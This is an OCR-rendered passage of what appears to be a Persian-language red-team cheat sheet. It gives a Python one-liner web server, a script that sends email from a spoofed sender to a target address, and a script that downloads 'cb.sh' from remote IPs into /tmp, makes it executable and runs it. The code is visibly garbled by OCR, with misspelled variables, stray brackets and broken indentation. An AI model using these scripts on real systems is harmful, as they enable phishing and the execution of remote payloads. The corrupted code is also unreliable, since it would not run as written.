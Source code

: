 ```text
python -m SimpleHTTPServer 8080
```

### ارسال ایمیل در python \(\* باید sendmail نصب باشد\)

```text
#!/usr/bin/python
import smtplib, string
import os, time

os.system("/etc/init.d/sendmail start")
time.sleep(4)

    HOST = "localhost"
    SUBJECT = "Email from spoofed sender"
    TO = "target@you.com"
    FROM= "spoof@spoof.com"
    TEXT = "Message Body"
    BODY = string.join( (
            "From: %s" % FROH,
            "To: %s" % TO,
            "Subject: %s" % SUBJECT ,
            "",
            TEXT
            ) , "\r\n")
server = smtplib.SMTP(HOST)
server.sendmail(FROM, [TO], BODY)
server. quit ()
time.sleep(4)
os.system("/etc/init.d/sendmail stop")
```

### دریافت فایل از http و اجرای آن

```text
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```
